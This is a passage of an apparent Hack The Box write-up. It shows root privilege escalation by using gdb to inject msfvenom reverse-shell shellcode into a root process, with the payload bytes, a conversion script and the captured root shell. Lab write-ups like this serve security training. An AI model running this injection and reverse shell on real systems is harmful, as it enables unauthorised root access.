msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.11 LPORT=9001 -f py -o revshell.py
vim revshell.py
```
```python
# //revshell.py
buf =  b""
buf += b"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05"
buf += b"\x48\x97\x48\xb9\x02\x00\x23\x29\x0a\x0a\x0e\x0b"
buf += b"\x51\x48\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05"
buf += b"\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75"
buf += b"\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f"
buf += b"\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6"
buf += b"\x0f\x05"

# Divisible by 8
payload = b"\x90" * (8 - len(buf) % 8 ) + buf

# Change endianess and print gdb lines to load the shellcode in RIP directly
for i in range(0, len(buf), 8):
	chunk = payload[i:i+8][::-1]
	chunks = "0x"
	for byte in chunk:
		chunks += f"{byte:02x}"

	print(f"set {{long}}($rip+{i}) = {chunks}")
```
Then when I run the python script I get this output:
```python
set {long}($rip+0) = 0x296a909090909090
set {long}($rip+8) = 0x5e016a5f026a9958
set {long}($rip+16) = 0x0002b9489748050f
set {long}($rip+24) = 0x48514e0e0a0a2923
set {long}($rip+32) = 0x582a6a5a106ae689
set {long}($rip+40) = 0xceff485e036a050f
set {long}($rip+48) = 0x6af675050f58216a
set {long}($rip+56) = 0x69622fbb4899583b
set {long}($rip+64) = 0x8948530068732f6e
set {long}($rip+72) = 0x050fe689485752e7
```
Then,  on the victim I use `ps -aux` look for a process run by root, in this case there is a `sleep 20`. Which is nice because the guide used a sleep command as well. Then I run `gdb` and attach it to the sleep process
```bash
gdb -p $(pgrep sleep)
```
I then get taken into the `gdb` console. In here I just paste in the output from the python script one line at a time, and when finished, enter `c`. On my waiting `nc`, I catch a reverse shell as root!
```bash
developer@faculty:~$ gdb -p $(pgrep sleep)
<...SNIP...>
0x00007f53a91bb1b4 in _start () from /lib64/ld-linux-x86-64.so.2
(gdb) set {long}($rip+0) = 0x296a909090909090
(gdb) set {long}($rip+8) = 0x5e016a5f026a9958
(gdb) set {long}($rip+16) = 0x0002b9489748050f
(gdb) set {long}($rip+24) = 0x4851220f0a0a2923
(gdb) set {long}($rip+32) = 0x582a6a5a106ae689
(gdb) set {long}($rip+40) = 0xceff485e036a050f
(gdb) set {long}($rip+48) = 0x6af675050f58216a
(gdb) set {long}($rip+56) = 0x69622fbb4899583b
(gdb) set {long}($rip+64) = 0x8948530068732f6e
(gdb) set {long}($rip+72) = 0x050fe689485752e7
(gdb) c
Continuing.
process 57041 is executing new program: /usr/bin/dash
```
Back on my listener:
```bash
┌──(kali㉿Kali)──[18:33:26]──[~/htb/Machines/Faculty]
└─$ nc -lvnp 9001
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.129.227.208:45404.
id
uid=0(root) gid=0(root) groups=0(root)

cat root.txt
691a834-------------------------
```